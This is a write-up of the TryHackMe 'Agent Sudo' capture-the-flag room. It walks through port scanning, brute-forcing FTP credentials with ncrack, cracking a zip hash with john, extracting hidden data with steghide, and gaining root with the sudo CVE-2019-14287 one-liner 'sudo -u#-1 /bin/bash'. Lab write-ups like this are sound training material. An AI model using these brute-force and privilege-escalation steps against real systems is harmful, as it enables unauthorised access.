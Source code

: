 ```yaml
---
title: Agent Sudo - Easy THM
date: 2023-11-11 10:20:51 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /agentsudo
tags: [thm, writeup, easy, linux, steganographie, web, CVE-2019-14287]     # TAG names should always be lowercase
---
```


## **`SCANNING`**

**Threader3000 scan:**

`python3 threader3000.py 10.10.49.159`

```python
Port 21 is open
Port 22 is open
Port 80 is open
```

**nmap scan:**

`nmap -p21,22,80 -sV -sC -T4 -Pn -oA 10.10.49.159 10.10.49.159`

```python
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## `ENUMERATION`

We go on the webserver

`http://10.10.10.10/`

We spawn on a website, with a message talking about **USER-AGENT**

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)


Try changing the USER-AGENT

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

I got this new message

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)


It work, let's use the burp intruder to brute force all pages

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Found the path /C

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

User chris ? Let's try to brute force is FTP creds

```ncrack -u 'chris' -P /usr/share/wordlists/rockyou.txt ftp://10.10.118.96```

Get the FTP credentials

### FTP ENUMERATION

Retrieve all files and folder:

`wget -m --no-passive ftp://chris:pass@<target>`

Get this files
![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Extract the zip

`binwalk -e cutie.png`

Get a hash possibly

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Look like base64

`echo 'QXJlYTUx' | base64 -d`

Next, we get a zip, we use zip2john

`zip2john 8702.zip > hash.txt`

decrypt the hash with john

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Next extract the jpg with the pass

`steghide extract -sf cute-alien.jpg`

Found a user and a pass, try to connect via ssh, it work !

## `PRIVESC`

We have the user.txt, let's search for the root

check sudo rights

`sudo -l`

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Found a CVE on sudo version 1.8.27

https://www.exploit-db.com/exploits/47502

**The exploit:**

sudo -u#-1 /bin/bash

Got root !